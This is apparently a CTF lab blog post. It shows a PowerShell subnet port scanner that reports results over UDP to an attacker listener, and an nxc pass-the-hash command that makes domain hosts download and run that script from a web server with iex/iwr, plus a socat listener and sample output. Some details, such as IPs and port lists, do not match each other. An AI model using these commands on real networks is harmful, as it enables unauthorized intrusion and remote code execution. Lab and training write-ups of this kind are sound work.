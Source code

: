 ```yaml
---
title: "Hunting Subnets in a CTF Lab"
date: 2024-06-25T13:00:30-06:00
categories:
  - blog
tags:
  - powershell
  - subnets
  - CTF
  - OSCP
---
```


During a recent lab session, I encountered a challenging but exciting task: hunting down subnets. Armed with Domain Admin (DA) privileges on the main domain, I was set to make the exercise an intriguing venture. Despite the inherent lack of operational security (OpSec) safety in my approach, the process was thoroughly engaging.

### **Toolset**

- **PowerShell Scripting**: Utilized for probing subnet addresses.
- **socat**: Employed to listen for incoming UDP traffic.
- **NXC Command**: Used to execute commands across the network.
- **Web Server**: Used stage our powershell.

### **PowerShell Script**

To efficiently identify open ports across subnet addresses, I crafted a PowerShell script designed to check port 445 (SMB) and report back to my attacker box:

```powershell
$ListenerIP = "10.10.15.252"
$ListenerPort = 5001
$subnet = "172.16.2"
$Ports = @(80, 445, 139, 22, 21, 88, 389, 636, 443, 8080, 8000)
$udpclient = New-Object System.Net.Sockets.UdpClient

1..254 | ForEach-Object {
    $ip = "$subnet.$_"
    Foreach ($p in $Ports) {
        try {
            $socket = New-Object System.Net.Sockets.TcpClient
            $async = $socket.BeginConnect($ip, $p, $null, $null)
            if ($async.AsyncWaitHandle.WaitOne(1000, $false)) {
                $result = "$env:computername - $ip - $p is open`n"
				$udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
            } else {
                $result = "$env:computername - $ip - $p is closed`n"
				# $udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
            }
            $socket.Close()
        } catch {
            $result = "$env:computername - $ip - $p encountered an error`n"
            $udpclient.Send([Text.Encoding]::ASCII.GetBytes($result), $result.Length, $ListenerIP, $ListenerPort)
        }
    }
}
$udpclient.Close()
```

### Socat Command

For real-time result collection, socat was configured to listen on UDP port 5001:

```bash
socat UDP-RECV:5001 STDOUT
```

### NXC Command

```bash
nxc smb 172.30.1.0/24 -u DA -H 700168xxxxxxxx39bd67e0 -x 'powershell -c "iex (iwr http://10.10.45.252:8000/tools/psscan.ps1 -usebasic)"'
```

### The Output

```bash
DC01 - 172.16.2.100 - 445 is closed
FS01 - 172.16.2.100 - 445 is closed
DC01 - 172.16.2.101 - 445 is closed
DC01 - 172.16.2.102 - 445 is open
FS0 - 172.16.2.101 - 445 is closed
FS01 - 172.16.2.102 - 445 is closed
MS01 - 172.16.2.100 - 445 is closed
WIN01 - 172.16.2.100 - 445 is closed
MS01 - 172.16.2.101 - 445 is closed
WIN01 - 172.16.2.101 - 445 is closed
WSADM1 - 172.16.2.100 - 445 is closed
MS01 - 172.16.2.102 - 445 is closed
WIN01 - 172.16.2.102 - 445 is closed
WSADM1 - 172.16.2.101 - 445 is closed
WSADM1 - 172.16.2.102 - 445 is closed
SQL01 - 172.16.2.100 - 445 is closed
SQL01 - 172.16.2.101 - 445 is closed
SQL01 - 172.16.2.102 - 445 is closed
```

### Conclusion
While not necessarily OpSec safe, this exercise was a fun and effective way to explore and understand the network layout and security posture regarding SMB ports within the lab's domain. The use of automated scripts and real-time data exfiltration offered a dynamic approach to network exploration.

We can easily adapt the ports to check, or even nest another For loop to add checking for multiple subnets.  I already had an idea of what i was going to find, and was only interested in the existence of the subnet, so i opted for only port **(Updated the script since)** and was content with running this multiple times to get what i needed.
